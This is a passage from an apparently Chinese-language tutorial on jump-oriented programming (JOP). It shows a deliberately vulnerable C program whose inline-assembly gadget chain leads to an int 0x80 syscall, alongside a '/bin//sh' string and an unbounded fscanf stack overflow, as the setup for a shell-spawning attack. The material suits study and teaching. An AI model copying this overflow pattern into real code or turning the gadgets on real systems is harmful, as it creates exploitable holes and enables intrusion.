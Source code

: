 首先，我们来完成一个最简版本的jop攻击。

漏洞代码vul.c

```
#include &lt;stdlib.h&gt;  
#include &lt;stdio.h&gt;  
#include &lt;string.h&gt;  
#include &lt;fcntl.h&gt;  
#include &lt;sys/stat.h&gt;  
#include &lt;sys/mman.h&gt;  
#include &lt;unistd.h&gt;  
  
char* executable="/bin//sh";  
char* null="";  
FILE * fd;  
  
void attack_payload () `{`  
asm(".intel_syntax noprefix");  
//dispatcher  
asm("add ebp,edi; jmp [ebp-0x39];");  
  
//initializer  
asm("popa; jmp [ebx-0x3e];");  
  
//g00  
asm("popa; cmc; jmp [edx];");  
//g01  
asm("inc eax; cmc; jmp [edx];");  
//g02  
asm("mov [ebx-0x17bc0000], ah; stc; jmp [edx];");  
//g03  
asm("inc ebx; stc; jmp [edx];");  
//g07  
asm("popa; call dword ptr [ecx];");  
//g08  
asm("xchg ecx, eax; fdiv st, st(3); jmp [esi-0xf];");  
//g09  
asm("mov eax, [esi+0xc]; mov [esp], eax; call [esi+0x4];");  
//g0a  
asm("int 0x80");  
  
asm(".att_syntax noprefix");  
`}`  
  
void overflow() `{`  
  char buf[256];  
  fscanf(fd,"%[^n]",buf);  
  return;  
`}`  
  
int main(int argc, char** argv) `{`  
  char* filename = "exploit";  
  if(argc&gt;1) filename = argv[1];  
  fd=fopen(filename, "r");  
  overflow();  
`}`
```
